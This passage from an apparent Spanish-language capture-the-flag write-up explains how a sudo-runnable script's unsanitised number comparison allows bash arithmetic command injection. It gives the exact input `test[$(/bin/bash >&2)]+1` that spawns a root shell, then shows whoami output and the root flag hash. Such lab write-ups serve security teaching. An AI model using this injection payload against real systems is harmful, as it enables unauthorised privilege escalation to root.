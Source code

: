 Veremos que esta validando si metemos bien un numero o no, pero vemos una vulnerabilidad bastante interesante, y es en la comparacion `logica` de los numero introducidos por el usuario y con el que lo compara, no vemos que este sanitizando la entrada a que sea solamente un numero, por lo que podremos meter lo que queramos, vamos a probar a utilizar una `inyeccion de comandos` a nivel de `bash` de esta forma:

```shell
sudo /home/trinity/secure.sh
```

Ahora cuando nos pida el numero, vamos a meter lo siguiente:

```shell
test[$(/bin/bash >&2)]+1
```

Info:

```
root@f0f84f7c54a9:/home/trinity# whoami
root
```

Y con esto veremos que ya seremos `root`, por lo que vamos a leer la `flag` del usuario `root`.

> root.txt

```
049b737e4dcd097cb2ce0b54cef950e9
```
